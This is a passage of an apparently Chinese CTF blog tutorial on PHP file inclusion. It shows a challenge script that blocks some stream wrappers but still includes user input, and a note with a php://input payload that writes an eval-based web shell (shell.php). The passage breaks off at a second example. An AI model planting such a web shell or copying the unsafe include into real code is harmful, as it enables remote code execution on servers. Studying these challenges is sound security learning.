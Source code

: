 <span class="token keyword">if</span><span class="token punctuation">(</span><span class="token function">stristr</span><span class="token punctuation">(</span><span class="token variable">$file</span><span class="token punctuation">,</span><span class="token double-quoted-string string">"php://filter"</span><span class="token punctuation">)</span> <span class="token operator">||</span> <span class="token function">stristr</span><span class="token punctuation">(</span><span class="token variable">$file</span><span class="token punctuation">,</span><span class="token double-quoted-string string">"zip://"</span><span class="token punctuation">)</span> <span class="token operator">||</span> <span class="token function">stristr</span><span class="token punctuation">(</span><span class="token variable">$file</span><span class="token punctuation">,</span><span class="token double-quoted-string string">"phar://"</span><span class="token punctuation">)</span> <span class="token operator">||</span> <span class="token function">stristr</span><span class="token punctuation">(</span><span class="token variable">$file</span><span class="token punctuation">,</span><span class="token double-quoted-string string">"data:"</span><span class="token punctuation">)</span><span class="token punctuation">)</span><span class="token punctuation">{</span>
	<span class="token function">exit</span><span class="token punctuation">(</span><span class="token single-quoted-string string">'hacker!'</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
<span class="token punctuation">}</span>
<span class="token keyword">if</span><span class="token punctuation">(</span><span class="token variable">$file</span><span class="token punctuation">)</span><span class="token punctuation">{</span>
	<span class="token keyword">if</span> <span class="token punctuation">(</span><span class="token variable">$file</span><span class="token operator">!=</span><span class="token double-quoted-string string">"http://www.baidu.com"</span><span class="token punctuation">)</span> <span class="token keyword">echo</span> <span class="token double-quoted-string string">"tips：flag在当前目录的某个文件中"</span><span class="token punctuation">;</span>
	<span class="token keyword">include</span><span class="token punctuation">(</span><span class="token variable">$file</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
<span class="token punctuation">}</span><span class="token keyword">else</span><span class="token punctuation">{</span>
	<span class="token keyword">echo</span> <span class="token single-quoted-string string">'&lt;a href="?file=http://www.baidu.com"&gt;click go baidu&lt;/a&gt;'</span><span class="token punctuation">;</span>
<span class="token punctuation">}</span>
<span class="token delimiter important">?&gt;</span>
<div class="hljs-button signin" data-title="登录后复制"></div></code><ul class="pre-numbering"><li style="color: rgb(153, 153, 153);">1</li><li style="color: rgb(153, 153, 153);">2</li><li style="color: rgb(153, 153, 153);">3</li><li style="color: rgb(153, 153, 153);">4</li><li style="color: rgb(153, 153, 153);">5</li><li style="color: rgb(153, 153, 153);">6</li><li style="color: rgb(153, 153, 153);">7</li><li style="color: rgb(153, 153, 153);">8</li><li style="color: rgb(153, 153, 153);">9</li><li style="color: rgb(153, 153, 153);">10</li><li style="color: rgb(153, 153, 153);">11</li><li style="color: rgb(153, 153, 153);">12</li><li style="color: rgb(153, 153, 153);">13</li><li style="color: rgb(153, 153, 153);">14</li></ul></pre>
<p><img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20190212171849262.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMTgxNDI4,size_16,color_FFFFFF,t_70"><br>
<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20190212172017164.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMTgxNDI4,size_16,color_FFFFFF,t_70"><br>
<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20190212185213880.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMTgxNDI4,size_16,color_FFFFFF,t_70"><br>
注：利用php://input还可以写入php木马,即在post中传入如下代码：</p>
<pre class="prettyprint"><code class="has-numbering" style="position: unset;" onclick="mdcp.signin(event)">&lt;?PHP fputs(fopen('shell.php','w'),'&lt;?php @eval($_POST[cmd])?&gt;');?&gt;
<div class="hljs-button signin" data-title="登录后复制"></div></code><ul class="pre-numbering"><li style="color: rgb(153, 153, 153);">1</li></ul></pre>
<p><strong>Example 2：</strong> 文件内容绕过</p>
<pre class="prettyprint"><code class="prism language-php has-numbering" style="position: unset;" onclick="mdcp.signin(event)"><span class="token comment">//test.php</span>
<span class="token delimiter important">&lt;?php</span>
<span class="token function">show_source</span><span class="token punctuation">(</span><span class="token constant">__FILE__</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
<span class="token keyword">include</span><span class="token punctuation">(</span><span class="token single-quoted-string string">'flag.php'</span><span class="token punctuation">)</span><span class="token punctuation">;</span>